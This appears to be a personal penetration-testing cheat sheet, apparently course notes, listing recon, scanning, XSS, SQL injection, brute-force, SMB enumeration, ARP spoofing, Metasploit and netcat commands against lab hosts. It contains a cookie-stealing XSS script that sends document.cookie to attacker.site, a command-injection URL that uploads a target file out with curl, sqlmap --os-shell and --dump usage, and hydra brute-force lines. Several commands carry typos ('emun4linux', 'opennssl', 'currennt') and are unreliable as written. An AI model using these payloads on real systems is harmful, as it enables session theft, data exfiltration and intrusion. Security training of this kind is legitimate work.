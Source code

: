 # pts
Adding network to route table 
Routing:
•	ip route add <network> via <gateway> dev <interface>
  
gathering information’s (passive):
help to Understand the target organization widen the attack surface and amount efficient and targeted attacks
  
1- Domain enumeration:
•	dnsdumpster.com
•	sublist3r -d <domain> -o <output file>
•	whois <domain>

scanning and fingerprinting:
help to perform efficient and have knowledge of the scope targets 
  
1- Scanning:
Ping sweep:
o	Ping  for alive hosts:
•	fping -a -g <network_id/cidr> 2> /dev/null/
•	nmap -sn < network_id/cidr >  ping sweep

2- OS fingerprinting:
  
•	nmap -O <OS fingerprinting>
For software of hosts running
•	nmap -sn -O < network_id/cidr>
  
  
3- scan ports:
  
o	Nmap 
•	nmap -sn <host discovery, is it up or not> 
•	nmap -sT <full tcp 3 way shake>
•	nmap -sS < syn scan, lighter on the network>
•	nmap -iL <import from list>
•	nmap -sV < version detection>
•	nmap -O <OS fingerprinting>
•	nmap -A <all>

vulnerability assessment:
help to prepare yourself for exploitation 
  
1-	Nessus 
•	To run Nessus: /bin/systemctl start nessusd.service
•	To run web: https://kali:8834/
  
2- To scan the XSS vulnerability:
example: xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
  
3- nikto
nikto -h <url>
  
exploitation:
  
1- fingerprinting:
o	banner grabbing:
•	netcat / nc <target address> <port> -v <for verbos>
  ** should be all upper case
•	opennssl s_client -connect <ip: port> <this is for ssl /tsl services>
•	httprint -p0 -h <target host> -s < signature file> 
  
2- Find hidden dier:
o	cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSIONS>
o	Dirbuster
 
3- vulnerability:
  
3.1- XSS (cross site script):

Script to show cookie in the alert:
o	<script>alert(document.cookie);</script>

Script for send cookies every time someone enters to contact page by:
o	<script> 
var i = new Image(); 
i.src="http://attacker.site/get.php? cookie="+escape(document.cookie)</script>

web	Page1:
My server (receive cookies id):
o	http://attacker.site /get.php?p=<payloads>
web	page2:
show cookies Hach:
o	http://attacker.site/jar.txt

3.2 - SQLi:
•	Sqlmap 
•	sqlmap -u <url>  -p <parameter> --technique=<B,U>
•	sqlmap -u <url>  -data <data from burp> -p <parameter>
•	sqlmap -r <http request file> --os-shell
•	--dbs show databases
•	--tables <show tables>
•	-T <select table>
•	--columns <show columns>
•	-C <select columns >
•	--dump <extract the data>

Example: 
sqlmap -u <url>  -p <parameter> ?id=1
sqlmap -u <url>  -p <parameter> ?id=1 -b
sqlmap -u <url>  -p <parameter> ?id=1 --tables 
sqlmap -u <url> -p <parameter> ?id=1 --currennt -db <database> --columns
sqlmap -u <url> -p <parameter> ?id=1 --currennt -db <database> --dump

3.3 -MySQL:
•	mysql -u <username> -p<password> -h <host>  
use <name of database>
show tables;
select * from <table name>;
System Attacks and Network Attacks:
3.4 -Password crack and brute force:
•	hydra -L <name list> -P <pass list>  telnet://<ip>
•	hydra -L <name list> -P <pass list>  <ip> ssh
•	john -wordlist=<word list> <hash file>
•	unshadow <file> >  <file.txt>
3.5 -REC: 
•	scp ssh@<host ip>/path file> 
•	talent <domain> -l <name>
•	ssh <username@domain>

3.6	-Command parameter 
http://demo.ine.local:8000?cmd<parameter>=curl+<local machine>+--upload-file+<target file>

3.7 -null sessions
emumeration 
•	enum4linux 
•	emun4linux -n <domain> : do an nmblookup 
•	emun4linux -P <domain> : to cheek password policy
•	emun4linux -S <domain>: will give us information about the SMB shares on the machine
•	emun4linux -U <domain> : to view users
•	emun4linux -a <domain> :  run all simple enumeration
•	smbclient -L <ip>
•	smbclient //<ip>/<share folder>
•	smbclient \\\\<ip>\\ <share folder>
•	get <share folder> <host path>
•	Nmap –script-agrs=unsafe=1 -–script smb-check-vulns -p445 <ip>  >old way
•	Nmap --script smb-check-vuln-* -p445 <ip>  >>new
 
3.8 -Arp spoofing:
•	Echo 1 > /proc/sys/net/ipv4/ip_forward : to run as router
•	Echo 0 > /proc/sys/net/ipv4/ip_forward :to stop router
•	Arpspoof -I <interface> -t <target> -r <host>
  
Metasploit:
•	msfconsole: to run Metasploit
•	search <search_term>: search for vulnerability …
•	use <number/name>: Load config. (For exploit)
•	set <payload >: For assign payload 
•	 run / exploit 
	Show<any>: list option about payload, exploit……
	Info: show vulnerability information 
	back: return to main banner
	Set < variable > < value >: assign value to a variable (for option)
	getuid 
	getsystem
	nmap –script vuln <ip>
	namp -sC <ip>
 
o	Netcat 
•	Nc  <option>  <host>  <port> 
Ex: nc -nlvp 127.0.0.1 4444 (listing on server on port 4444)
